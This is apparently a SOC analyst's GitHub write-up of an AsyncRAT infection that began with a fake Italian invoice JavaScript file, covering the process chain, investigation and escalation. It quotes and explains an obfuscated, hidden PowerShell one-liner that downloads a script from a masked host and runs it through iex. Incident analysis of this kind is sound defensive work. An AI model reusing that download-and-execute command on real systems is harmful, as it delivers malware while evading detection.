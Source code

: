 # incident-AsyncRAT

![image alt] (https://github.com/dita-cyber/incident-AsyncRAT/blob/69df1a142796b4e89f004cac8a2aaa4e5ebd004c/asrat.png)

As a SOC analyst, I recently worked on an intriguing incident involving "Execution via PowerShell" that was flagged by CrowdStrike Falcon. The alert was related to AsyncRAT, a stealthy malware variant known for its ability to establish intermittent, non-persistent communication with a C2 server using protocols like HTTP/S or DNS. It often leverages encryption and obfuscation to evade detection, making it a particularly challenging threat to tackle.

Timeline of events observed:

HOST > winlogon.exe > userinit.exe > explorer.exe > msedge.exe > wscript.exe > powershell.exe

The command line involved in the incident was:
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noprofile -executionpolicy bypass -WindowStyle hidden -C "Set-Alias -Name mint -Value ('{0}{1}' -f 'cu','rl'); mint -useb hXXp[:]//XXXXXXXXX.XX/1.php?s=flibabc13 | &('{1}{0}' -f 'x', 'ie')"

Breaking down the command, it was observed:

Alias Obfuscation with:
string formatting (-f) to concatenate cu and rl 
curl is an alias for Invoke-WebRequest

Downloading Payload: 
The -useb flag is short for -UseBasicParsing, which simplifies the web request by avoiding the Internet Explorer engine.

Code Execution: 
The pipe |  sends the downloaded script content to iex  (short for Invoke-Expression ), executing it as PowerShell code.

Further investigation revealed that a JavaScript file was downloaded:
"C:\Windows\System32\WScript.exe" "C:\Users\USERNAME\Downloads\FatturaXXXXXXXXX.js"

Upon analyzing the URL on VirusTotal, it was confirmed as malicious. The JavaScript file was also flagged as malicious after being run in Joe Sandbox, revealing a 100% malicious behavior.

Response and escalation performed:
Fortunately, the host was already contained, and all processes related to the incident were blocked. I sent an escalation report to the client, detailing the findings and IOCs.

I also performed further investigation to trace the event's origin. I investigated the wscript.exe process using the query field to search for the JavaScript file name, "FatturaXXXXXXX.js," and discovered a log entry with a previously unseen Host URL. Analyzing this URL in Joe Sandbox showed page was not reacheble anymore and checking VirusTotal for the domain returned as 2/97 malicious. 

Interestingly, the client is an Italian company, and "fattura" means "invoice" in Italian. It appears to be part of a broader campaign targeting various countries using fake invoices to infect hosts.
